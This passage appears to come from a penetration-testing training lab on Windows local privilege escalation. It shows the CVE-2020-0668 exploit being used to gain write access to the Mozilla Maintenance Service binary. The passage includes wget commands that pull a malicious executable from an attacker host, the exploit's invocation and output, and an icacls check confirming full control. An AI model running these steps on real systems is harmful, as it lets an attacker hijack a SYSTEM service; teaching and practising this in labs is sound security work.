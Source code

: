 For this step we need to make two copies of the malicious .exe file. 
We can just pull it over twice or do it once and make a second copy.

We need to do this because running the exploit corrupts the malicious version of `maintenanceservice.exe` that is moved to (our copy in `c:\Users\htb-student\Desktop` that we are targeting) `c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` which we will need to account for later. If we attempt to utilize the copied version, we will receive a `system error 216` because the .exe file is no longer a valid binary.

Kernel Exploits

```powershell
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\htb> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe

```

### Running the Exploit

Next, let's run the exploit. It accepts two arguments, the source and destination files.

Kernel Exploits

```
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

[+] Moving C:\Users\htb-student\Desktop\maintenanceservice.exe to C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe

[+] Mounting \RPC Control onto C:\Users\htb-student\AppData\Local\Temp\nzrghuxz.leo
[+] Creating symbol links
[+] Updating the HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Tracing\RASPLAP configuration.
[+] Sleeping for 5 seconds so the changes take effect
[+] Writing phonebook file to C:\Users\htb-student\AppData\Local\Temp\179739c5-5060-4088-a3e7-57c7e83a0828.pbk
[+] Cleaning up
[+] Done!

```

### Checking Permissions of New File

The exploit runs and executing `icacls` again shows the following entry for our user: `WINLPE-WS02\htb-student:(F)`.
 This means that our htb-student user has full control over the 
maintenanceservice.exe binary, and we can overwrite it with a 
non-corrupted version of our malicious binary.

Kernel Exploits

```
C:\htb> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'

C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(F)
                                                                          BUILTIN\Administrators:(F)
                                                                          WINLPE-WS02\htb-student:(F)

```

